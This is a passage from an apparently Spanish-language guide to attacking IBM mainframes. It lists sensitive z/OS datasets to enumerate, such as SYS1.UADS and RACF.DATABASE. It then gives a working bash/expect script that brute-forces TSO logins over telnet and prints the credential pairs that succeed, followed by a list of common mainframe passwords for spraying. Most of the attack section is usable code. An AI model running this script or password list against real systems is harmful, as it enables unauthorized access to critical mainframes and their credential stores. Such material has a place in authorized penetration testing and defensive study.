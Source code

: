 ### 2.3 Enumeración de Datasets

#### Comandos de Listado de Datasets
```bash
# Listado de datasets comunes
SYS1.*
IBMUSER.*
*.PROCLIB
*.PARMLIB
*.LINKLIB

# Datasets sensibles a enumerar
SYS1.PARMLIB
SYS1.PROCLIB  
SYS1.LINKLIB
SYS1.UADS
RACF.DATABASE
```

---

## 3. Vectores de Ataque Comunes

### 3.1 Ataques a TSO/ISPF

#### Fuerza Bruta de Credenciales
```bash
# Script básico de fuerza bruta TSO
#!/bin/bash
TARGET="<mainframe_ip>"
USERS="users.txt"
PASSWORDS="passwords.txt"

while read user; do
    while read pass; do
        expect -c "
            spawn telnet $TARGET 23
            expect \"USERID\"
            send \"$user\r\"
            expect \"Password\"
            send \"$pass\r\"
            expect {
                \"READY\" { puts \"SUCCESS: $user:$pass\" }
                \"IKJ56425I\" { puts \"FAILED: $user:$pass\" }
            }
        "
    done < $PASSWORDS
done < $USERS
```

#### Password Spraying
```bash
# Lista de passwords comunes en mainframes
PASSWORD
SECRET
123456
IBMPASS
SYS1
MASTER
```
